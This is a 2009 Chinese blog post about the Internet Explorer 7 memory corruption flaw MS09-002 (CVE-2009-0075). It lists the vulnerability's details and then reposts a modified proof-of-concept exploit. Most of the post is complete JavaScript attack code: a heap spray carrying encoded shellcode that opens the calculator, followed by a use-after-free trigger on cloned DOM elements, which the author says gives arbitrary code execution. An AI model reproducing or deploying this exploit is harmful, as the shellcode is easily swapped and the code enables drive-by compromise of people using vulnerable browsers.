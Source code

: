 ```yaml
---
title: IE 7 Exploit MS09-002内存破坏漏洞利用程序
description: 注：浏览本文杀毒软件可能会报毒，夜火的瑞星是报了，不过IE7ExploitMS09-002内存破坏漏洞利用程序的JavaScript代码是直接以文本形式贴出来的，不会运行，大家可以放心浏览MicrosoftIECFunctionPointer函数内存破坏漏洞（MS09-002）发布时间:2009-02-10影响版本:MicrosoftInternetExplorer7.0漏洞描述:BUGTRAQID:33627CVE(CAN)ID:CVE-2009-0075CommentbyFriddy:这个实际不是个破坏内存的漏洞，可以利用这个漏洞执行任意的代码。今天我花了十几分钟修改了miliw0rm的只会造成DOS的POC，现在已经可以较为稳定执行任意代码。
date: 2009-02-20 09:51:33
category: 漏洞信息
tags: ['IE', '漏洞信息', 'exploit']
post_id: 791
alias: IE7-Exploit-MS09-002
ViewNums: 3968
---
```


注：浏览本文[杀毒软件](http://www.virus-info.asia/virus/AntiVirus/)可能会报毒，[夜火](/blog/)的瑞星是报了，不过 [**IE 7 Exploit MS09-002内存破坏漏洞利用程序**](/blog/ie7-exploit-ms09-002) 的JavaScript代码是直接以文本形式贴出来的，不会运行，大家可以放心浏览

[**Microsoft IE CFunctionPointer函数内存破坏漏洞（MS09-002）**](/blog/ie7-exploit-ms09-002)
发布时间:2009-02-10
影响版本:
Microsoft Internet Explorer 7.0

漏洞描述:
BUGTRAQ ID: 33627
CVE(CAN) ID: CVE-2009-0075

Comment by Friddy:
这个实际不是个破坏内存的漏洞，可以利用这个漏洞执行任意的代码。
今天我花了十几分钟修改了miliw0rm的只会造成DOS的POC，现在已经可以较为稳定执行任意代码。

测试平台：
[Windows XP](/blog/deepin-litexp-windows-xp-sp3-v62) SP2+Internet Explorer 7.0

下面发出POC给各位安全爱好者测试，测试效果是弹出Windows的计算器（calc.exe）

<!--
[MS09-002 Internet Exploere 7.0 Exploit](/blog/ie7-exploit-ms09-002)
Modify by Friddy 2009.02.19 mail:qianyang@ssyeah.com
blog:www.friddy.cn
Tested under [Windows XP](/blog/deepin-ghost-xp-sp3-v90-iso) sp2+IE 7.0
shellcode will popup the calc.exe
-->

<script language="JavaScript">
var shellcode=unescape("%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120%u49EB%u348B%u018B%u31EE%u99C0%u84AC%u74C0%uC107%u0DCA%uC201%uF4EB%u543B%u0424%uE575%u5F8B%u0124%u66EB%u0C8B%u8B4B%u1C5F%uEB01%u1C8B%u018B%u89EB%u245C%uC304%uC031%u8B64%u3040%uC085%u0C78%u408B%u8B0C%u1C70%u8BAD%u0868%u09EB%u808B%u00B0%u0000%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE2D8%u6873%uFE98%u0E8A%uFF57%u63E7%u6C61%u0063");

var array = new Array();

var ls = 0x100000-(shellcode.length*2+0x01020);

var b = unescape("%u0D0D%u0D0D");
while(b.length<ls) { b+=b;}
var lh = b.substring(0,ls/2);
delete b;

for(i=0; i<0xD0; i++) {
array[i] = lh + shellcode;
}

CollectGarbage();

var s1=unescape("%u0b0b%u0b0bAAAAAAAAAAAAAAAAAAAAAAAAA");
var a1 = new Array();
for(var x=0;x<500;x++) a1.push(document.createElement("img"));
o1=document.createElement("tbody");
o1.click;
var o2 = o1.cloneNode();
o1.clearAttributes();
o1=null; CollectGarbage();
for(var x=0;x<a1.length;x++) a1[x].src=s1;
o2.click;
</script>

作者：[Friddy](http://www.friddy.cn/article.asp?id=84)

